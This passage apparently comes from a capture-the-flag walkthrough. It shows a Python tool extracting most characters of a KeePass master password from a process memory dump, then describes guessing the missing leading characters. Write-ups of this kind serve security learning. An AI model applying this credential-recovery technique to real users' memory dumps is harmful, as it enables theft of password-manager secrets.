 

    oxdf@hacky$ python keepass_dump/keepass_dump.py -f KeePassDumpFull.dmp 
    [*] Searching for masterkey characters
    [-] Couldn't find jump points in file. Scanning with slower method.
    [*] 0:  {UNKNOWN}
    [*] 2:  d
    [*] 3:  g
    [*] 4:  r
    [*] 6:  d
    [*] 7:   
    [*] 8:  m
    [*] 9:  e
    [*] 10: d
    [*] 11:  
    [*] 12: f
    [*] 13: l
    [*] 15: d
    [*] 16: e
    [*] Extracted: {UNKNOWN}dgrd med flde



It knows it doesn't know the 0 char, but it also skips the 1, 5, and 14
char as well (5 and 14 show up as "ø" in the original POC). Still, it's
enough to continue.

### SSH

#### Find Master Password

The exploit has a limitation of not getting the first character. The
DotNet version also gives a list of possibilities for the second
character, and gets the rest. Searching for the string minus the first
two characters is enough to find a known phrase:

![](/img/image-20240204160300809.png)

It's adding a "rø" to the front, which fits the pattern. Even the less
complete output from the Python script works here:
